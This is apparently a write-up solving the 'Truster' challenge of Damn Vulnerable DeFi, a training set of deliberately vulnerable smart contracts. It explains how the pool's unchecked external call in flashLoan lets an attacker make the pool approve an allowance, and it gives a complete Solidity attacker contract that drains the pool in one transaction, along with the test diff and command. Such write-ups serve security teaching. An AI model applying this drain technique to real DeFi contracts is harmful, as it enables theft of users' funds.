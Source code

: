 
# What is Damn Vulnerable DeFi?

The Damn Vulnerable DeFi Challenge is a set of educational exercises designed to teach participants about common vulnerabilities in decentralized finance (DeFi) protocols. Through hands-on practice,
participants exploit simulated vulnerabilities in a controlled environment, learning about security pitfalls and best practices in smart contract development and blockchain security.

This challenge helps developers, auditors, and enthusiasts understand the intricacies of DeFi security by engaging them in real-world attack scenarios and defenses.


# `Truster` Challenge Solution:

if we take a look at `TrusterLenderPool` Contract, the `TrusterLenderPool::flashloan()` function makes an external call to given `target` and what you should keep in mind, if we have an function that makes external call to any Contract, the `msg.sender` is the Contract itself, in this case `msg.sender` is the `TrusterLenderPool` Contract.

Now We Should Keep in Mind what available functions are there to be called?

- We Can Create Our Contract so `TrusterLenderPool` Contract, calls one of our functions.
- We Can Call `DamnValuableToken` token functions which is basically `ERC20` functions.
  
the thing you should keep in mind to pass this challenge is, we should find a single line solution so we can pass the `assertEq(vm.getNonce(player), 1, "Player executed more than one tx");` assertion inside the `Truster.t.sol::_isSolved()` function which basically checks our Nonce Number and should be `1`. also the `TrusterLenderPool` token balance should be sent to `Truster::recovery` address to pass this challenge, keep it in mind.

since any external calls made from `TrusterLenderPool::flashoan()` function, the `msg.sender` is the `TrusterLenderPool` Contract, we can take advantage of it and increase someone else
allowance amount with `approve()` function.

first lets see how basic everyday `approve()` function works:


```javascript
    function approve(address spender, uint256 amount) public virtual returns (bool) {
        allowance[msg.sender][spender] = amount;

        emit Approval(msg.sender, spender, amount);

        return true;
    }
```

the `tokenHolder(msg.sender)` sets the `spender` allowance amount.

now if we pass `token` which is the `DamnValueAbleToken` and `approve(recovery, 1_000_000e18)` as `data` to `TrusterLenderPool::flashoan()` function, we can then use `transferFrom()` as `vm.prank(recovery)` to steal the `pool` Balance. but in this case all of the things we do should be as `vm.prank(player)` and not change it and also the solution should be done in single transaction, in this solution i gave as `vm.prank(recovery)` that was `2` transactions.

#### How we Can Achieve this with Single Transaction and Pass the Challenge?


if we Create a Contract that does all of this inside the `constructor()` we can pass this challenge successfully with single transaction `(vm.getNonce(player) == 1)`.

Our Contract will Looks like this:

```javascript
    contract FlashLoanTaker {

    uint256 private constant TOKENS_IN_POOL = 1_000_000e18; // current balance of `TrusterLenderPool`.

    address recovery;                                       // recovery address is the address we should send the tokens to after stealing it.
    TrusterLenderPool pool;                                 // `TrusterLenderPool` Contract.
    DamnValuableToken token;                                // `DamnValuableToken` token Contract.

    constructor(address _recovery, TrusterLenderPool _pool, DamnValuableToken _token) {
        recovery = _recovery;
        pool = _pool;
        token = _token;

        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL);  // the function `target` should call.
        pool.flashLoan(TOKENS_IN_POOL, address(pool), address(token), data);    // take flashloan and set the `borrower` to `pool` and call `approve(address(this), 1_000_000e18)`.
                                                                    // since we have set the receiver to `borrower`, we don't need to return tokens.
                                                                    // current allowance of `address(this)` is `1_000_000e18`. so we can use `transferFrom(pool, recovery, 1_000_000e18)`
        token.transferFrom(address(pool), recovery, TOKENS_IN_POOL); 
    }
}
```

add following line to `Truster.t.sol::test_truster()` to pass this challenge:

```diff
    function test_truster() public checkSolvedByPlayer {
+       FlashLoanTaker flashLoanTaker = new FlashLoanTaker(recovery, pool, token);
    }
```

then run the test:

```javascript
    forge test --match-test test_truster -vvvv
```

boom! you passed the challenge.